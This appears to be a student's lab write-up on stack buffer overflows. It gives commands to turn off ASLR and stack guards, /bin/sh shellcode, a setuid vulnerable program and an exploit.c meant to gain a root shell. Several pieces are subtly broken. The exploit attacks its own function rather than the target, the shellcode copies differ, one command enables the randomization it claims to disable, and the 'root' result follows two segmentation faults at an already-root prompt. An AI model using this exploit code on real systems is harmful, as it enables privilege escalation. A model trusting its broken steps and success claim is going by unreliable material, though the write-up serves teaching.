










**Kirby Fernandez**
**CECS-378-Buffer Overflow**

## Buffer Overflow
>A buffer overflow is a type of software vulnerability that occurs when a program or process attempts to write more data to a buffer (a region of memory used to temporarily hold data) than it can handle. This can cause the excess data to overflow into adjacent memory regions, potentially overwriting important data, including program code, program variables, and even system memory.

>Buffer overflows are commonly exploited by hackers to take control of a system or to execute malicious code. By overwriting critical data, an attacker can modify the behavior of a program or execute code of their choice, often with elevated privileges.

>Buffer overflows can occur in any programming language, but they are most commonly associated with C and C++, which allow direct access to memory and do not include built-in bounds checking on arrays or other data structures. To prevent buffer overflow attacks, programmers must be careful to properly validate input and ensure that all data written to a buffer is properly bounded. Additionally, modern programming languages and operating systems often include protections such as stack canaries and address space layout randomization (ASLR) to prevent or mitigate the effects of buffer overflow attacks.

## Legend

This program focuses on buffer overflow attacks and how they can be carried out on poorly-programmed system programs. We are task to perform a stack smash on the vuln.c code file using a C program that you create named exploit.c. Your program should attempt to open up a reverse shell on the attacked program as root by exploiting the buffer (you can verify this by typing the command whoami on the resulting terminal). The vuln.c code must be compiled in its own, separate program and must not be altered from its original state.



Image 1: Visual Representation of a stack when buffer overflow occurs.



Image 2: Visual Representation of an active stack frame in func() and an example code.

>In computer programming, a stack is a region of memory used for temporary storage of data. The stack typically grows downward in memory and is organized as a last-in, first-out (LIFO) data structure. When a function is called, the computer stores the return address and the local variables of the function on the stack. When the function completes, the computer retrieves the return address and pops the local variables off the stack, returning to the calling function.

>In the context of a buffer overflow attack, the stack can be overwritten if a program writes more data to a buffer than the buffer can hold. If the extra data is written beyond the end of the buffer, it may overwrite the data stored on the stack, including the return address and local variables of the currently executing function.

>If the return address is overwritten, the program will not return to the expected location when the current function completes, but instead will jump to the location specified by the attacker. This can allow the attacker to execute arbitrary code with the privileges of the compromised process, potentially leading to a full system compromise.

>In some cases, an attacker may also use a buffer overflow to overwrite specific local variables on the stack, allowing them to manipulate the behavior of the program in other ways. For example, an attacker could overwrite a variable that controls a loop or a conditional statement, altering the flow of execution within the program.

### Initial steps I did.

(1) Disabling some Address Space Randomization.
>Address space randomization is a technique utilized by Ubuntu and other Linux-based operating systems to randomize the starting address of the heap and stack. This technique is designed to impede buffer overflow attacks by making it challenging to guess the precise addresses. However, in the lab, these security features are disabled using specific commands.

For Linux to disable randomization for a shell session:
```
# for i386
setarch i386 -RL bash
# or more generally
setarch $(uname -m) -RL bash
```
The -R option disables address randomization, -L mandates legacy virtual memory layout.
To disable randomization for the whole system, add this to /etc/sysctl.conf:
```
# Do not randomize memory addresses
kernel.randomize_va_space = 0
```
After that, run 'sysctl -p' as root to update the kernel without rebooting.
Note that on Red Hat Enterprise Linux 3 systems, the key is named kernel.exec-shield-randomize instead. In addition, you will also have to set kernel.exec-shield to 0.
```
/sbin/sysctl -w vm.legacy_va_layout=1
```
on FC4 and FC5T1 systems, though on (On 2.6.14-1.1653_FC4smp) it didn't seem necessary.

On my approach I did use this:
(2) Stack Guard
The "Stack Guard" is a security mechanism implemented by the GCC compiler to prevent buffer overflow attacks. If this protection is present, buffer overflow attacks will not be successful. However, you can disable this protection by using the -fno-stack-protector switch when compiling the program. To illustrate, if you want to compile a program called example.c with Stack Guard disabled, you can use the following command:

I tried using this however on my third try using Damn Vulnerable Linux dvl version 1.3
Date of Release: 27 July 2007
Stack Guard doesnt work on it so I just regulary compile without using stack guard.

```
gcc -fno-stack-protector example.c
```
(3) Shellcode
>Shellcode is a small piece of code that is typically used as the payload in a buffer overflow attack. When a buffer overflow occurs, it can overwrite the return address on the stack with the address of the shellcode, which will then be executed.

>The specific shellcode used in a buffer overflow attack will depend on the target system, as it needs to be written to exploit the specific vulnerability being targeted. In general, shellcode will typically perform the following steps:

- 1.Set up the stack: Shellcode will typically set up the stack so that it points to the location of the shellcode itself, rather than to the original return address. This ensures that the shellcode will be executed when the function returns.

- 2.Spawn a shell: Once the stack has been set up, shellcode will typically use a system call or other mechanism to spawn a shell. This allows the attacker to interact with the compromised system.

- 3.Clean up: After the shell has been spawned, the shellcode will typically clean up any traces of its presence, such as deleting any temporary files that it created.

It's worth noting that writing shellcode can be a complex and specialized skill, and should only be attempted by experienced security professionals who have a deep understanding of both the target system and the underlying principles of buffer overflow attacks.

Here is my shellcode:
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

const char code[] =
  "\x31\xc0"             /* xorl    %eax,%eax              */
  "\x50"                 /* pushl   %eax                   */
  "\x68""//sh"           /* pushl   $0x68732f2f            */
  "\x68""/bin"           /* pushl   $0x6e69622f            */
  "\x89\xe3"             /* movl    %esp,%ebx              */
  "\x50"                 /* pushl   %eax                   */
  "\x53"                 /* pushl   %ebx                   */
  "\x89\xe1"             /* movl    %esp,%ecx              */
  "\x99"                 /* cdq                            */
  "\xb0\x0b"             /* movb    $0x0b,%al              */
  "\xcd\x80"             /* int     $0x80                  */
;

int main(int argc, char **argv)
{
   char buf[sizeof(code)];
   strcpy(buf, code); // Use strcpy to copy the code into buf
   ((void(*)( ))buf)( );
}
```
Then run the command to compile thecode using Non-Executable Stack.
```
gcc -z execstack -o shellcode shellcode.c
```

Let us breakdown the shellcode:
```
Breaking down the shellcode itself, here's what each line does:

1."\x31\xc0": XOR the EAX register with itself, effectively setting it to 0.

2."\x50": Push the value of EAX (which is now 0) onto the stack.

3."\x68""//sh": Push the string "//sh" onto the stack.

4."\x68""/bin": Push the string "/bin" onto the stack.

5."\x89\xe3": Move the value of ESP (the stack pointer) into the EBX register.

6."\x50": Push the value of EAX (which is still 0) onto the stack.

7."\x53": Push the value of EBX (the address of the "/bin/sh" string) onto the stack.

8."\x89\xe1": Move the value of ESP (the stack pointer) into the ECX register.

9."\x99": Perform the CDQ instruction, which sets the value of EDX to 0.

10."\xb0\x0b": Move the value 0x0b into the AL register.

11."\xcd\x80": Trigger an interrupt 0x80, which is used for system calls in Linux. This specific system call (0x0b) will execute the command specified by the "/bin/sh" string, spawning a new shell.
```
>Overall, this shellcode is designed to spawn a new shell on a Linux system by executing a specific system call. It achieves this by carefully manipulating the stack and registers in order to pass the necessary arguments to the system call function.

(4) Vuln.c
Here we are given the following C code file, to perform a stack smash on this vuln.c code:
```c
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
  // Make some stack information
  char a[100], b[100], c[100], d[100];
  // Call the exploitable function
  exploitable(argv[1]);
  // Return: everything is OK
  return(0);
}

int exploitable(char *arg) {
  // Make some stack space
  char buffer[10];
  // Now copy the buffer
  strcpy(buffer, arg);
  printf("The buffer says .. [%s/%p].\n", buffer, &buffer);
  // Return: everything fun
  return(0);
}
```
After writing the vulnerable program compile the code and make it set-root-uid by:
```
gcc -o vuln -z execstack vuln.c
chmod 4755 stack
```

(5) Next, is writing your exploit.c program
Here is what I wrote:
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

#define OFFSET 100
#define NOP 0x90
#define SHELLCODE "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

// Declare the exploitable function before main
int exploitable(char *arg);

int main(int argc, char **argv) {
    char buffer[256];
    char *ptr;
    long *addr_ptr, addr;
    int offset = OFFSET;
    int bsize = sizeof(buffer);
    int i;
    char *shell[2];
    shell[0] = "/bin/sh";
    shell[1] = NULL;

    if (argc > 1) offset = atoi(argv[1]);

    addr = (long)exploitable; // Get address of exploitable function
    printf("Address of exploitable() function: 0x%lx\n", addr);

    ptr = buffer;
    addr_ptr = (long *)(ptr);

    // Fill buffer with return address
    for (i = 0; i < bsize; i += 4) {
        *(addr_ptr++) = addr + offset;
    }

    // Fill buffer with NOPs
    for (i = 0; i < bsize/2; i++) {
        buffer[i] = NOP;
    }

    // Copy shellcode to buffer
    memcpy(buffer + (bsize/2), SHELLCODE, strlen(SHELLCODE));

    // Null terminate the buffer
    buffer[bsize - 1] = '\0';

    // Pass buffer to exploitable function
    exploitable(buffer);

    return 0;
}

int exploitable(char *arg) {
    // Make some stack space
    char buffer[10];
    // Now copy the buffer
    strcpy(buffer, arg);
    printf("The buffer says .. [%s/%p].\n", buffer, &buffer);
    // Return: everything fun
    return 0;
}
```

Then we begin the attack using gdb see following screenshots below in order:







## Trial And Error
(1) I first tried installing older version of slackware, but then realize there is no mouse integration so it was time consuming.

(2) I tried attacking it natively in my OS (Ubuntu 20.04 LTS) because of this "as modern compilers build canaries into code in order to prevent such a thing from occurring"

(3) Ultimately I went to www.vulnhub.com and install iso DAMN VULNERABLE LINUX (DVL): 1.3 (E605) dating back July 27, 2007. Then I made it work inside the virtual machine!

## TL;DR
Step 1: Disabling some Address Space Randomization.
```
sudo sysctl -w kernel.randomize_va_space=2
```
Step 2: Stack Guard
```sh
bt ~ # sudo sysctl -w kernel.randomize_va_space=0
kernel.randomize_va_space = 0
bt ~ # touch vuln.c exploit.c shellcode.c
bt ~ # gcc -z execstack shellcode.c shellcode
```

Step 3: Shellcode
Step 4: vuln.c
```sh
bt ~ # gcc -o vuln -z -execstack vuln.c
bt ~ # chmod 4755 vuln
bt ~ # gdb -- quiet vuln
exit
bt ~ # ./vuln
```
Step 4: exploit.c
```sh
bt ~ # gcc exploit.c -o exploit
bt ~ # ./exploit
```
Step 5: Ultimately
Once the program above has been completed, it should be compiled and run to generate the contents. Afterward, the vulnerable program stack should be run. If the exploit has been implemented correctly, a root shell should be obtainable.
```sh
bt ~ # ./exploit
Address if exploitable() function: 0x80485ba
Segmentation fault
bt ~ # ./vuln
Segmentation fault
bt ~ # whoami
root
```

## Extra: Determining where the segmentation error in c using gdb (Screenshots below)



